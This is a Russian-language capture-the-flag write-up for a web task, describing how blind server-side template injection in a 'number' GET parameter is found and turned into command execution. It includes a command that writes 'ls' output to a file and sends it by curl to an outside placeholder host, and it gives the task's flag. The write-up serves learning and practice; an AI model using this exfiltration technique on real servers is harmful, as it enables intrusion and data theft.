








Нас встречает главная страница

1. Любое задание на веб начинаем с изучения кода страницы.

2. Из кода страницы узнаём, что для того чтобы отправлять числа надо формировать запрос с GET-параметром number. И находим подсказку про шаблоны. Очевидно, что это намёк на один из шаблонизаторов, осталось узнать какой используется, проведя несколько тестов. 

3. Однако сервер не возвращает нам прямого ответа, который мог бы подтвердить исполнение шаблона. 

Но мы не сдаёмся и отправляем на сервер тип данных не подходящий под число и видим, что сервер ответил нам «Это даже не число», из этого делаем вывод что шаблон, отправленный до этого, собрался в 49, и сервер посчитал его числом.


4. Blind SSTI
Находим нужный нам payload с rce и проверим выполнение через **curl** постучавшись, например, на burp collaborator. 

И видим успех. Запрос пришёл, а значит команды выполняются. 


Теперь запишем результат выполнения команды **ls** и вышлем с помощью **curl** файл с результатом.
```ls > test.txt; curl –d @test.txt “domain”```
И нам придёт результат выполнения 

Таким образом мы можем выполнить команды для поиска флага системе, например find и grep, после чего выслать его себе благодаря **curl**
**Флаг: RDGCTF{wh4t_ab0ut_fu11_bl1nd_sst1?}**
